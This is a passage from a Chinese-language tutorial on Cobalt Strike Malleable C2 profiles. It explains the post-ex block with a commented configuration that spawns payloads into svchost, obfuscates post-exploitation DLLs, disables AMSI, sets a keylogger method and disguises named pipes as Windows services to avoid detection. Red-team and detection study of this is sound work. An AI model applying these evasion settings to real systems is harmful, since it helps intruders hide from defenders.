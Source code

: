 注：`transform-x86`和`transform-x64`代码块用于对注入的代码进行转换，可以向Beacon注入的内容添加东西，你可以使用`append`和`prepend`命令来向注入的代码前或后添加额外的代码，又或者使用`replace-str`和`replace-all-str`命令在注入的代码中替换字符串



### post-ex

`post-ex`代码块在Cobalt Strike的Beacon payload中是用来配置后期执行（post-exploitation）阶段的一些参数。这些参数主要影响和控制如何创建新的进程、怎样注入和执行代码、如何混淆和隐藏行为以及如何收集和传输数据等。

一般而言，在一个成功的网络入侵中，攻击者在拥有目标系统的访问权限之后，通常需要进行一系列的后期执行活动，例如执行更多的攻击、收集数据、建立持久性访问等。这些活动需要对目标系统进行一系列复杂的操作，如创建和管理新的进程、注入和执行代码、使用不同的通信方式来传输数据等。`post-ex`代码块就是用来配置和控制这些操作的一系列参数。

```apl
post-ex {
    # 控制我们产生的临时进程。Beacon将产生一个临时进程，将shellcode注入其中，并让新的进程执行这个shellcode。
    set spawnto_x86 "%windir%\\syswow64\\svchost.exe"; # 对于32位payloads
    set spawnto_x64 "%windir%\\sysnative\\svchost.exe"; # 对于64位payloads
    
    # 改变我们的post-ex DLLs的权限和内容。此设置启用对Beacon用于post-ex任务的DLLs(如键盘记录或令牌操作)的混淆。
    set obfuscate "true";
    
    # 更改我们的post-ex输出命名管道名称。此设置允许控制Beacon用于从作业中检索输出的命名管道。
    set pipename "srvsvc-1-5-5-0####";
    
    # 将关键函数指针从Beacon传递到其子作业。启用smart注入将使Beacon将带有关键函数指针的数据结构传递给其post-ex作业。
    set smartinject "true";
    
    # 允许多线程post-ex DLLs产生带有伪装起始地址的线程。
    # set thread_hint "module!function+0x##";
    
    # 在powerpick、execute-assembly和psinject中禁用AMSI。此选项将会在目标进程中修补AMSI。
    set amsi_disable "true";
    
    # 控制用于记录键盘击键的方法
    set keylogger "SetWindowsHookEx";
}
```

在如上代码中，使用`spawnto_x86`和`spawnto_x64`设置来定义在32位和64位系统上新创建的进程的名称，可以使用`obfuscate`设置来决定是否对Beacon用于后期执行任务的DLL进行混淆以避免被检测，还可以通过`amsi_disable`设置来决定是否禁用目标系统的AMSI（防恶意软件扫描接口）来避免被反恶意软件工具检测等等。

 `pipename`参数用于定义或改变在后期执行阶段使用的命名管道(命名管道是一种在本地或网络上的不同进程之间进行通信的机制。在Windows系统中，它们通常用于在不同的进程或者系统之间共享和传输数据。它们的名字通常以`\\.\pipe\`开始，然后是任意你选择的名称)。特别地，`pipename`中的`#`符号会被替换为一个随机的数字，这样每次创建新的命名管道时都会使用一个不同的名称，从而进一步提高了隐蔽性

例如，`set pipename "srvsvc-1-5-5-0####";`设置将创建一个名为`srvsvc-1-5-5-0`后面跟四个随机数字的命名管道，例如`srvsvc-1-5-5-01234`。这个名字看起来像一个正常的Windows服务，可能不会引起安全人员的注意



## 参考链接

- https://wbglil.gitbook.io/cobalt-strike/cobalt-strikekuo-zhan/malleable-c2#malleable-c2-ji-ben-yu-fa
